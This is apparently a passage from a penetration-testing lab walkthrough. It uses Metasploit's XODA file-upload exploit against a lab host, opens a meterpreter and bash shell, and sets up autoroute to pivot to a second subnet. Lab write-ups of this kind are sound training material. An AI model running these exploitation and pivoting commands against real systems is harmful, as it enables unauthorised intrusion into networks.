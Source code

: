 - Exploitation

```bash
search xoda
use exploit/unix/webapp/xoda_file_upload
set RHOSTS 192.41.167.3
set TARGETURI /
run
```

![](.gitbook/assets/image-20230412221111369.png)

- Perform a network scan on the second target

```bash
meterpreter > shell
```

```bash
/bin/bash -i
ifconfig
# 192.26.158.2 Local Lan subnet IP
exit
```

- Add the route within `meterpreter` and background the meterpreter session

```bash
run autoroute -s 192.26.158.2
background
```

![](.gitbook/assets/image-20230412221528898.png)
